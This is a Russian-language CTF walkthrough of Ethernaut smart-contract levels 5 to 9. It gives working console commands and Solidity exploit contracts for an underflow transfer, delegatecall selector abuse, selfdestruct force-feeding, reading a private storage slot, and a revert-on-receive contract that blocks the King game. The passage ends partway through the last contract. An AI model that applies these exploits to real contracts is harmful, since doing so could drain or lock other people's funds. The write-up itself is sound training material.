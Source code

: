 ### 5. Token (**)
Кажется, здесь пахнет переполнением...))
Да, это оно)))
>await contract.balanceOf(player) //проверяю свой баланс. Как и обещали == 20
>contract.transfer(contract.address, 21) //атака!
>await contract.balanceOf(player) //охренеть!

### 6. Delegation (**)
Ссылки на ссылки. Момент и я разберусь. Ага, нужно получить селектор функции pwn() и отправить его вместе с 1 wei. Всего делов-то
bytes4(keccak256("pwn()")) = 0xdd365b8b 
cast keccak "pwn()" =        0xdd365b8b15d5d78ec041b851b68c8b985bee78bee0b87c4acf261024d8beabab
>const sig = _ethers.utils.keccak256(_ethers.utils.toUtf8Bytes("pwn()")).substr(0,10)
>sendTransaction({data: sig, from: player, to: contract.address})


### 7. Force (***)
Повышение сложности - ***
Но оказывается я знаю, что делать - контракт камикадце) Контракт будет минималистичен:
```
// SPDX-License-Identifier: MIT
pragma solidity 0.8.0;

contract Kamikadze {
    constructor(address a) payable {
        selfdestruct(payable(a));
    }
}
```


### 8. Vault (**)
>contract.address
'0xA364FfB7796Af2327592674cC542B871fFA015c4'
Прочитать слот 1 могу с помощью cast от Foundry
>cast storage 0xA364FfB7796Af2327592674cC542B871fFA015c4 1 --rpc-url "https://ethereum-sepolia.publicnode.com"
0x412076657279207374726f6e67207365637265742070617373776f7264203a29
>contract.unlock('0x412076657279207374726f6e67207365637265742070617373776f7264203a29')

### 9. King (***)
Сидел, смотрел минуты две - ни к чему не прикопаться!... Только если действующего короля не сместить. А это можно сделать только если король - контракт не принимающий эфир! Хе-хе... Минуточку))
Ok, вышло больше минуты. С чтением документации заняло все полчаса если не больше. А надо было только удалить receive() из того, что написал сразу :/
```
// SPDX-License-Identifier: MIT
pragma solidity 0.8.0;

contract DeafKing {

    function overthrowTheKing(address king) public payable returns(bool) {
        (bool success, ) = payable(king).call{value: msg.value}("");
        return success;
    }

    // receive() external payable {
    //     // overthrowTheKing(msg.sender);
    //     revert();
    // }

    fallback() external payable { 
        revert();
```
